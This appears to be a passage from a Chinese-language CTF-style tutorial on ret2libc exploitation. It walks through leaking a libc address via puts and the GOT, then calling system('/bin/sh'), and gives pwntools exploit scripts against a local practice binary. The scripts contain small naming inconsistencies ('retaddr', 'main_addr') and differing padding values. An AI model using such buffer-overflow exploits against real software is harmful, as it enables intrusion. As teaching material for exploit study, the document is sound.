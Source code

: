 首先，类似于上面的配置，我们返回到了gets，参数为bss段上的一个地址，从键盘输入`/bin/sh`后，gets结束，返回地址为pop_ebx_ret，这时栈顶是gets的参数，我们用了pop使得它出栈，将栈上的参数作了清理，然后执行ret，此时栈顶是system的地址，所以又是类似第一次的配置，完成调用。

例3.同之前的程序，这次在plt表中找不到system了，但是有gets和puts。

既然用不了system的plt地址，那么我们就需要获得它在libc中的真实地址，这里我们就需要泄漏了。

而且，payload肯定需要发送两次，因为第一次的时候我们是不知道libc的真实地址的，所以第一次的发送用来泄漏，第二次才是真实的利用。这里就可能需要ret回main函数来循环调用程序了。同样地，我们需要知道程序用的libc版本，这里就需要用libcdb等工具进行筛选了。

最后，大多数版本的libc中，都是有`'/bin/sh'`字符串的，如果泄漏libc基地址后就可以使用了。

获取libc版本：

```python
e=ELF('ret2libc3')
p=process('ret2libc3')
puts_plt=e.plt['puts']
gets_got=e.got['gets']
printf_got=e.got['printf']
...

padding=b'#'*0x70
ret_addr=b'#'*4

payload=padding+retaddr+p32(puts_plt)+p32(_______got)#多次运行脚本，最后一项填入gets、printf等已经执行过的函数的got表地址来泄漏，取十六进制最后三位，去libcdb上查询，找到后下载so文件或者符号表。
p.send(payload)
```

exp:

```python
from pwn import *
e=ELF('ret2libc3')
libc=ELF('libc.so.6')
p=process('ret2libc3')

puts_plt=e.plt['puts']
gets_got=e.got['gets']
main = e.symbols['main']
fake_ret_addr=b'#'*4

p.recv()
payload=b'#'*0x70+p32(puts_plt)+p32(main_addr)+p32(gets_got)
p.send(payload)

gets_libc=u32(p.recv()[0:4])
libc_base=gets_libc-libc.symbols['gets']
print('libc_base='+hex(libc_base))
system_libc=libc.symbols['system']+libc_base
sh_str=next(libc.search(b'/bin/sh'))+libc_base

#这里puts执行后，返回地址为main函数，第二次执行main里的gets。这里我们不用管前面的栈布局了，就当成新一次的main函数上的栈溢出漏洞就行

payload=b'#'*0x68+p32(system_libc)+fake_ret_addr+p32(sh_str)#0x68是动态调试得到的填充长度
p.send(payload)
p.interactive()

```



